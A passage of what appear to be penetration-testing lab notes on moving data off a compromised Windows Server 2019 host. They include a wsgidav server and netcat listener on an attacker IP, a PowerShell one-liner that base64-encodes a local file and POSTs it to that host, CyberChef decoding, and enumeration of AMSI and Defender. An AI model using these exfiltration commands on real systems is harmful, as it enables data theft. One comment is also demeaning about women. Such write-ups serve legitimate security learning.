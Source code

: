 ![](callbackfromhostevasiononenumscript.png)

![](smbserverclosingconnections.png)



```bash
wsgidav --port=80 --host=10.11.3.193 --root=$(pwd) --auth=anonymous
```
Or
```bash
# Pipe out to a file do not just do what the nice women wrote down like an idiot
nc -lvnp 80
```
[Discovered CSbyGB - Woman Hacker of the Year 2022's notes](https://csbygb.gitbook.io/pentips/cs-by-gb-pentips/readme) 

Upload to a `wsgidav` server
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\programdata\info.txt' -Encoding Byte))
Invoke-WebRequest -Uri http://10.11.3.193:80/ -Method POST -Body $b64
```

smb did not work...
![](httpfinally.png)

Understanding the issues with [cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9-_',true,false)Remove_null_bytes())
![](toomanycmds.png)

[The Archive must be the best!](https://csbygb.gitbook.io/pentips/post-exploitation/file-transfers#powershell-invoke-webrequest)
```bash
cat info.txt.b64 | grep -v 'POST\|User-Agent\|Content-Type\|Host\|Content-Length\|Expect\|Connection' > info.txt.b64.cyberchef

# Cyberchef recipe
`#recipe=From_Base64('A-Za-z0-9-_',false,false)Remove_null_bytes()`
```


![](notsoelegantsolution.png)

#### Enumeration Takeaways

- We can not infil in low-hanging-possiblities
	- certutil
- We can exfil through http
- Window Server 2019
- Full Language mode
- AMSI present
- Windows Defender present 

```powershell
WindowsBuildLabEx                                       : 17763.1.amd64fre.rs5_release.180914-1434
WindowsCurrentVersion                                   : 6.3
WindowsEditionId                                        : ServerDatacenter
WindowsInstallationType                                 : Server
WindowsInstallDateFromRegistry                          : 3/17/2021 2:59:06 PM
WindowsProductId                                        : 00430-00000-00000-AA191
WindowsProductName                                      : Windows Server 2019 Datacenter
WindowsRegisteredOrganization                           : Amazon.com
WindowsRegisteredOwner                                  : EC2
WindowsSystemRoot                                       : C:\Windows
WindowsVersion                                          : 1809
...
# output clipped
```